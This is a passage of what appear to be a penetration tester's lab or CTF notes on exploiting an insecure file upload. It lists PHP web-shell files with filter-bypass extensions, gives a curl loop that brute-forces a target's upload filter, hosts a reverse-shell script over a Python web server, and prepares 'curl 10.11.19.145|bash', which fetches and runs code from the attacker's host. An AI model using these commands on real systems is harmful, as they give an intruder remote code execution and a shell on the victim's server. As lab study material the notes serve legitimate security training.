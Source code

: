 or install from apt (Will only contain payloads and not up to date)

will be installed at `/usr/share/payloadsallthethings`

```bash
sudo apt install payloadsallthethings -y
```

```bash
┌──(kali㉿kali)-[/usr/share/payloadsallthethings/Upload Insecure Files/Extension PHP]
└─$ ls
 phpinfo.jpg.php   phpinfo.php3   phpinfo.php7   phpinfo.phtml          shell.jpg.php          shell.phar   shell.php4   shell.phpt    shell.png.php
 phpinfo.phar      phpinfo.php4   phpinfo.phpt  'shell.gif?shell.php'  'shell.jpg?shell.php'   shell.php    shell.php5   shell.pht    'shell.png?shell.php'
 phpinfo.php       phpinfo.php5   phpinfo.pht    shell.jpeg.php         shell.pgif             shell.php3   shell.php7   shell.phtml
```

### Use curl to automate file upload

> Alternative way is to use brup suite using wordlist :: `/opt/sectools/cheatsheet/PayloadsAllTheThings/Upload Insecure Files/Extension PHP/extensions.lst`

```bash
┌──(kali㉿kali)-[/usr/share/payloadsallthethings/Upload Insecure Files/Extension PHP]
└─$ for FILE in *; do string=$(curl -s -X POST -F file=@$FILE http://10.10.60.122:3333/internal/index.php); if [[ $string != *"Extension not allowed"* ]]; then echo "Found: $FILE" ;fi ; done
Found: phpinfo.phtml
Found: shell.phtml
```

Host reverse shell script ([[Reverse Shell#Reverse Shell as service]])

```bash
┌──(kali㉿kali)-[~/scripts/www-revshell]
└─$ ls
index.html

┌──(kali㉿kali)-[~/scripts/www-revshell]
└─$ python3 -m http.server 80
```

Url encode `curl 10.11.19.145|bash` with burp

![](../../attachment/e91e7f56fdc3ff6b6d8790750bec1ccc.png)
